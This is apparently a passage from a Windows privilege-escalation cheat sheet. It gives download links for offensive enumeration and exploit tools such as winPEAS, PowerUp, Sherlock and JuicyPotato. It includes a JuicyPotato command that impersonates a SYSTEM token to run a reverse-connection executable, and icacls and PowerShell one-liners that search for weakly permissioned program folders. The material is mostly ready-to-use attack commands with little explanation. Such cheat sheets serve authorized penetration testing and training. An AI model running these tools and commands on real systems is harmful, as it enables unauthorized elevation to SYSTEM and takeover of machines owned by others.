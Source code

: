 ### Automate search for vulnerabilities
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Release/winPEASany.exe  
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Privesc/PowerUp.ps1 - Invoke-PrivescAudit  
https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 - Find-AllVulns  
https://github.com/hlldz/dazzleUP/releases/download/v1.0/dazzleUP.x64.exe  
https://raw.githubusercontent.com/M4ximuss/Powerless/master/Powerless.bat  
https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat  
https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x86/Seatbelt.exe  
https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x86/Watson.exe  

## Juicy Potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe  
https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe  
```
needs SeImpersonate or SeAssignPrimaryToken privilege
whoami /priv
```

### Trick NT AUTHORITY\SYSTEM into authenticating via NTLM to a TCP endpoint under control, MitM this authentication and impersonate the token
```
.\JuicyPotato.exe -l <port> -p <reverseConnection>.exe -c {4991d34b-80a1-4291-83b6-3328366b9097} -t *
```

### Get CLSID
https://raw.githubusercontent.com/ohpe/juicy-potato/master/CLSID/GetCLSID.ps1  
https://ohpe.it/juicy-potato/CLSID  



## Scheduled Tasks
### Are there folder with full permissions
```
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}}
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
```
